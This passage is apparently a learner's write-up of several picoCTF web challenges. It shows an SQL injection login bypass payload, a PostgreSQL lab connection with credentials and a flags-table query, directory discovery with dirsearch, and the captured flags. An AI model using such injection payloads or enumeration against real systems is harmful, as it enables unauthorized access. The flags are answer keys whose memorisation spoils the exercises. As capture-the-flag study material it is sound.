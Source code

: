 A simple `SQL Injection` challenge where you just need to log in as admin, and the `flag` is in the source code
`payload`
```
Username: admin' or 1=1 --
Password: {anything}
```
`flag: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}`

### SQL Direct
`Description`
```
Connect to this PostgreSQL server and find the flag!
psql -h saturn.picoctf.net -p 54459 -U postgres pico
Password is postgres
```

I searched and studied some commands in the `PostgreSQL` database [here](https://hasura.io/blog/top-psql-commands-and-flags-you-need-to-know-postgresql)

```
List all databases : \l
```
![image](https://hackmd.io/_uploads/rkEEXQU91g.png)

```
List database tables : \dt
```
![image](https://hackmd.io/_uploads/HJj_XQLcyl.png)

and use
```
select * from flags;
```

![image](https://hackmd.io/_uploads/BkGimmU51e.png)

`flag: picoCTF{L3arN_S0m3_5qL_t0d4Y_21c94904}`

### Secrets
`Description`
```
We have several pages hidden. Can you find the one with the flag?
The website is running here.
```

This challenge was related to directory structure. After using dirsearch, I found a `/secret/` directory. It `rendered` some content even without additional parameters.

I then checked the source code and discovered another folder named `hidden`, which led to `superhidden`. Following this path, I eventually retrieved the `flag`

`flag: picoCTF{succ3ss_@h3n1c@10n_39849bcf}`

### Search source
`Description`
```
The developer of this website mistakenly left an important artifact in the website source, can you find it?
The website is here
```
